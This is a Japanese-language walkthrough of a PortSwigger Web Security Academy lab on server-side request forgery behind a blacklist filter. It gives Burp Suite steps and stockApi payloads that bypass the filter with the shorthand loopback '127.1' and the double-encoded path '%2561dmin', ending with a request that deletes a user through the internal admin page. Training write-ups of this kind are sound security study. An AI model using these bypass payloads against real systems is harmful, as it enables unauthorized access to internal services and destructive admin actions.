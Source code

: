# ブラックリスト ベースの入力フィルターを使用した SSRF

以下のハッキングラボをやります  
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

- 1. Burp Suite を起動し、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 商品ページに移動して、在庫チェックボタンを押します

* 4. POST /product/stock HTTP/2 リクエストを Send to repeater します
* 5. stockApi のパラメータをループバックアドレスにして送信すると、失敗します

```
stockApi=http://127.0.0.1/
```

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

- 6.  stockapi のパラメータを次のように省略記法にして送信すると成功します

```
stockApi=http://127.1/
```

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=WmbdUo6EYWqj5ES7h7jwWmkEKUryEBTb; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 10630
・・・
```

- 7. stockapi のパラメータを次のように管理者ページにアクセスするように変更して送信すると失敗します

```
stockApi=http://127.1/admin
```

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

- 8. stockapi のパラメータの一部をエンコーディングして送信すると管理者ページにアクセスできます

```
stockApi=http://127.1/%2561dmin
```

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=f8y5oMQhCt2HwS9bM3R9RytalV3jBqah; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074
・・
・
```

- 9. intercept on にして在庫チェックボタンを押して、stockApi パラメータを上記の通りにします
- 10. 管理者ページが開かれるので、Delete ボタンのリンクからパラメータを確認します
      ![1](https://github.com/pea-sys/shell-experiments/assets/49807271/dfcd7b1b-98a0-4fdd-b037-e160fa77386a)

```
https://0a6d007504285b6f86eca81d008500f3.web-security-academy.net/admin/delete?username=carlos
```

- 11. Repeater から以下のようにパラメータをセットして送信すると一般ユーザーが削除されます

```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```
